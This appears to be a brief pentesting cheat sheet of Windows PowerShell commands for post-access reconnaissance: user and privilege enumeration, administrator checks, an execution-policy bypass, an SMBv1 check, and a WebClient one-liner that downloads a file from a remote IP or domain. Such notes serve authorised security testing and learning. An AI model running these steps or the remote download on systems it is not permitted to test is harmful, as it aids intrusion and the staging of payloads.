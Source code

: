 ## first move to a powershell:-
powershell.exe

## then the obvious:-
whoami<br />
whoami /priv<br />
net user<br />
net localgroup Administrators<br />
Get-ExecutionPolicy<br />
powershell.exe -ep bypass (to set execution policy to bypass)<br />
$PSVersionTable.PSVersion.Major (to check the version of powershell)

## About the system and proccess running:-
systeminfo<br />
tasklist<br />
([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator) (to check if you r admin or not)<br />
(Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Services\Lanmanserver\Parameters" -Name SMB1 -ErrorAction SilentlyContinue | Select-Object "SMB1") (to check for smb version 1)<br />


## To Download somthing from the internet or intranet:-
powershell.exe -command (New-Object System.Net.Webclient).DownloadFile("http://'ip address/domain:port'/'file path from the root dir of server'","'download location's full path'\'programname.extension'")
**Everything in this command is without the single quote**
